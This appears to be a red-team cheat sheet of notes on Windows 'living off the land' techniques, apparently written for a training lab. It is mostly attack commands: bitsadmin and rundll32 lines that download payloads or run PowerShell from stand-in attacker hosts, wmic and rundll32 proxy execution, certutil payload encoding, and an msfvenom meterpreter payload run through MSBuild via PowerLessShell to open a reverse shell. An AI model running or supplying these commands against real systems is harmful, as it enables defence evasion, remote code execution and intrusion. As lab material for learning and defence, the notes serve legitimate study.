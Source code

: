 # Live off the land
*   Reconnaissance
*   Files operations
*   Arbitrary code execution
*   Lateral movement
*   Security product bypass

Windows file transfer
---------------------

to transfer a file from windows when you have creds and gui connection, right click on the file/folder and "give access to"→"specific people" and in dropdown select everyone and then ok, this will start a smb server from where you can connect with creds and download files with smbclient.

LOLBAS
------

if we want to look for a specific function, we require providing a  / before the function name. For example, if we are looking for all execute functions, we should use /execute. Similarly, in order to look based on types, we should use the # symbol followed by the type name. The following are the types included in the project:

*   Script
*   Binary
*   Libraries
*   OtherMSBinaries

```text-plain
certutil -encode payload.exe Encoded-payload.txt
```

BITSAdmin
---------

The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the  bitsadmin tool can be found at [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin). Download files with bitsadmin

```text-plain
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

findstr
-------

Download files from smb with findstr:

```text-plain
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe	
```

In order to create a child process of explorer.exe parent, we can execute the following command:

```text-plain
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

WMIC
----

Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. The MITRE ATT&CK framework refers to this technique as Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/) )

```text-plain
wmic.exe process call create calc   
```

Rundll32
--------

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage  rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as **Signed Binary Proxy Execution: Rundll32** and refers to it as [T1218](https://attack.mitre.org/techniques/T1218/011/).

```text-plain
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

we used the rundll32.exe binary that embeds a JavaScript component, eval(), to execute the calc.exe binary, a Microsoft calculator.

The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.

```text-plain
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

PowerLessShell
--------------

PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```text-plain
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

```text-plain
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

```text-plain
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

```text-plain
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no powershell.exe process is running.